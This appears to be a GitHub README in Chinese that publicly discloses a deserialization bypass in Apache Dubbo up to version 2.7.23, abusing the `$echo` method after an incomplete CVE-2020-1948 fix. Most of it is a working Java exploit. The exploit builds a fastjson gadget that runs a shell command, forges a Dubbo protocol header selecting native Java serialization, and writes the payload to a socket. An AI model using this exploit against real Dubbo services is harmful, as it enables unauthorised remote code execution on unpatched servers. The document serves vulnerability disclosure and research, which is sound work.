



# Dubbo Bypass deserialization checks <= 2.7.23

## version test

在复现 Dubbo 历史漏洞时，发现 CVE-2020-11995 即对 CVE-2020-1948 的修复不完全，`$echo` 仍然存在利用方式，后续版本 Hessian 黑名单将该问题隐藏了，但是仍存在 <=2.7.23 的原生反序列化利用。这个问题上报给 Dubbo 后得到的答复是 2.x 版本已[停止维护](https://github.com/apache/dubbo/security)，所以将该利用公开。


## 分析

在 2.7.8 这个版本中，通过修改 `org.apache.dubbo.rpc.support.RpcUtils#isEcho()` 这个方法对 CVE-2020-1948 进行了修复，但是该判断并不严格



仍然可以接受来自用户的 Object 对象，因此可以构建如下 payload 实现利用。不过在 Dubbo 2.7.14 版本中修改了 `com.alibaba.com.caucho.hessian.io.ClassFactory` 这个类，通过黑名单的方式限制了 Hessian 反序列化，以至于该问题被似乎合理的隐藏掉了。

```
oos.writeUTF("0.0.0");
oos.writeUTF("org.example.api.DemoService");
oos.writeUTF("0.0.0");
oos.writeUTF("$echo");
oos.writeUTF("Ljava/lang/Object;");
oos.writeObject(payload);
oos.writeObject(new HashMap());
oos.flushBuffer();
```





## pwned <=2.7.23

但是仍然可以用未经安全验证的 Java 反序列化的方式来实现绕过利用，这个问题在 3.x 以上版本被修复。

```java
public static void main(String[] args) throws Exception {
    Object o = GadgetBuilder.fastjson("open -a Calculator.app");

    // header.
    byte[] header = new byte[16];

    // set magic number.
    Bytes.short2bytes((short) 0xdabb, header);

    // set request and serialization flag.
    // 2 -> "hessian2"
    // 3 -> "java"
    // 4 -> "compactedjava"
    // 6 -> "fastjson"
    // 7 -> "nativejava"
    // 8 -> "kryo"
    // 9 -> "fst"
    // 10 -> "native-hessian"
    // 11 -> "avro"
    // 12 -> "protostuff"
    // 16 -> "gson"
    // 21 -> "protobuf-json"
    // 22 -> "protobuf"
    // 25 -> "kryo2"
    header[2] = (byte) (0x80 | 3 | 0x40);

    // set request id.
    Bytes.long2bytes(new Random().nextInt(100000000), header, 4);

    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    ObjectOutputStream oos = new ObjectOutputStream(baos);
    /* For Requests, we need to encode the following objects
          1.dubboVersion
          2.path
          3.version
          4.methodName
          5.methodDesc
          6.paramsObject
          7.map
        */
    oos.writeInt(666);
    oos.writeUTF("0.0.0");
    oos.writeInt(666);
    oos.writeUTF("org.example.api.DemoService");
    oos.writeInt(666);
    oos.writeUTF("0.0.0");
    oos.writeInt(666);
    oos.writeUTF("$echo");
    oos.writeInt(666);
    oos.writeUTF("Ljava/lang/Object;");
    oos.writeByte(666);
    oos.writeObject(o);
    oos.close();

    Bytes.int2bytes(baos.size(), header, 12);

    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
    byteArrayOutputStream.write(header);
    byteArrayOutputStream.write(baos.toByteArray());
    byte[] bytes = byteArrayOutputStream.toByteArray();
    
    Socket socket = new Socket("127.0.0.1", 12345);
    OutputStream outputStream = socket.getOutputStream();
    outputStream.write(bytes);
    outputStream.flush();
    outputStream.close();
}
```